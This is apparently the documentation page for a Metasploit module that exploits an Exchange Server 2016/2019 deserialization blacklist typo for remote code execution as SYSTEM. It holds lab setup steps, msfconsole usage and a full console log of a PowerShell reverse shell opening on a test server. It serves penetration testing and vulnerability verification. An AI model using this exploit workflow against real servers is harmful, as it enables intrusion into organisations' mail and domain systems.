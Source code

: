 ## Vulnerable Application

### Description
This vulnerability allows remote attackers to execute arbitrary code
on Exchange Server 2019 CU10 prior to Security Update 3, Exchange Server 2019 CU11
prior to Security Update 2, Exchange Server 2016 CU21 prior to Security Update 3,
and Exchange Server 2016 CU22 prior to Security Update 2.

Note that authentication is required to exploit this vulnerability.

The specific flaw exists due to the fact that the blacklist for the
ChainedSerializationBinder had a typo whereby an entry was typo'd as
`System.Security.ClaimsPrincipal` instead of the proper value of
`System.Security.Claims.ClaimsPrincipal`.

By leveraging this vulnerability, attacks can bypass the
`ChainedSerializationBinder`'s deserialization blacklist
and execute code as `NT AUTHORITY\SYSTEM`.

Tested against Exchange Server 2019 CU11 SU0 on Windows Server 2019.

### Setup

1. Set up a version of Windows Server 2019.
2. Download Exchange Server 2019 CU11 SU0 from https://download.microsoft.com/download/5/3/e/53e75dbd-ca33-496a-bd23-1d861feaa02a/ExchangeServer2019-x64-CU11.ISO
3. Follow the guide at https://petri.com/how-to-install-active-directory-in-windows-server-2019-server-manager to turn
the server into an AD server.
4. Mount the ISO and run `Setup.exe`. It should prompt you install .NET Framework, Visual Studio C++ Redistributables,
and Unified Communications Managed API. Install these and then reboot.
5. Follow https://www.nucleustechnologies.com/blog/step-by-step-guide-to-install-exchange-server-2019-part-1/ and
install the required features.
6. Keep running `Setup.exe` and installing extra dependencies as needed as per the links.
7. When you do get all dependencies installed, Exchange should give a button called `Install` which should no longer be
greyed out. Press this to install and accept any warnings that appear.
8. Go to https://*ip here*/owa/ and make sure you can see the Exchange Outlook login page.

## Verification Steps

1. Follow [Setup](#setup) to set up a vulnerable target.
2. `msfconsole`
3. `set RHOST <target IP address>`
4. `set LHOST <IP for target to connect back to>`
5. `set USERNAME <username of OWA user to log in as>`
6. `set PASSWORD <password for this OWA user>`
7. Optional: `set DOMAIN <domain of OWA user>`
8. Optional: `set VHOST <vhost of target>`
9. `exploit`
10. You should get a shell on the target as `NT AUTHORITY\SYSTEM` if it is vulnerable.

## Targets

### 0

`Exchange Server <= 2016 CU19 and 2019 CU8`

## Options

### USERNAME

Set this to the OWA username. This can also be set to a valid domain username that has permissions to log into Exchange.

### PASSWORD

Set this to the OWA password. This can also be set to the password for a domain user that has permissions to log into Exchange.

## Scenarios

### Exchange Server 2019 CU11 SU0 on Windows Server 2019 Fully Updated with February 2022 Patches

```
 ~/git/metasploit-framework │ exchange_cha…ist_typo_rce +2 !1 ?12  ./msfconsole
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.1.29-dev-5431d3d0f6               ]
+ -- --=[ 2200 exploits - 1164 auxiliary - 400 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use sessions -1 to interact with the 
last opened session

[*] Starting persistent handler(s)...
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/exchange_chainedserializationbinder_blacklist_typo_rce 
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_blacklist_typo_rce) > set RHOST 172.24.137.15
RHOST => 172.24.137.15
msf6 exploit(windows/http/exchange_chainedserializationbinder_blacklist_typo_rce) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(windows/http/exchange_chainedserializationbinder_blacklist_typo_rce) > set PASSWORD thePassword123!
PASSWORD => thePassword123!
msf6 exploit(windows/http/exchange_chainedserializationbinder_blacklist_typo_rce) > set LHOST 172.24.142.125 
LHOST => 172.24.142.125
msf6 exploit(windows/http/exchange_chainedserializationbinder_blacklist_typo_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_blacklist_typo_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   thePassword123!  no        OWA password
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.24.137.15    yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   USERNAME   administrator    no        OWA username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         172.24.142.125   yes       The listen address (an interface may be speci
                                            fied)
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Exchange Server


msf6 exploit(windows/http/exchange_chainedserializationbinder_blacklist_typo_rce) > exploit 
[*] Started reverse TCP handler on 172.24.142.125:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exchange Server 15.2.986.5 is a vulnerable build.
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD+NAPdfxHOQog5PRD09yZZAAAB5UmI
[+] ID value for Inbox folder is AQMkADk4Nzg3MTk4LTdmMWItNDIwOC1hNjYAZC1hMDU4ZWYyMGEyNDYALgAAA63xDZKmFz1AgDziIaoT/0sBAP40A91/Ec5CiDk9EPT3JlkAAAIBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Powershell session session 1 opened (172.24.142.125:4444 -> 172.24.137.15:9132 ) at 2022-02-11 13:41:59 -0600

PS C:\windows\system32\inetsrv> whoami
nt authority\system
PS C:\windows\system32\inetsrv> hostname
DC1
PS C:\windows\system32\inetsrv> 
```
